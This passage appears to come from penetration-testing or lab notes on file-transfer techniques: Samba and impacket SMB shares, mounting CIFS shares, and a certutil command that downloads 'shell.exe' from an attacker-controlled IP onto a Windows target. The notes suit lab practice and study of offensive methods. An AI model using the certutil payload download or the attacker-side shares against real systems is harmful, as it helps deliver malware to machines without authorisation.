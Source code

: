 ### Set folder permissions

```bash
chmod 0555 /var/www/html/pub
chown -R nobody:nogroup /var/www/html/pub

```

### Restart Samba

```bash
service smbd start
service smdb stop
service smbd restart

```

### Monitor logs for errors

```bash
tail -f /var/log/samba/log.<site-name>
```

## Impacket SMB

```bash
impacket-smbserver -ip 10.10.14.4 -smb2support gorilla /var/www/html/pub
```

Then use `\\10.10.14.4\gorilla\<file-name>` as the location to send your file from, or to have the target grab from you.

Mounting a remote share is pretty simple as well assuming you know the name of the share:

```bash
mkdir /mnt/10.10.10.123
mount -t cifs //10.10.10.123/general /mnt/10.10.10.123

```

Now we can browse the share inside our terminal.

## certutil

Genuinely forget that this is a thing. If you're on a Windows machine then this may be a viable option for transferring files from our host system to the target:

```bash
certutil -urlcache -f “http://10.10.14.14/shell.exe” shell.exe
```

That's it really.

It might not always be a thing, but on older Windows machines it should be present.

## TFTP

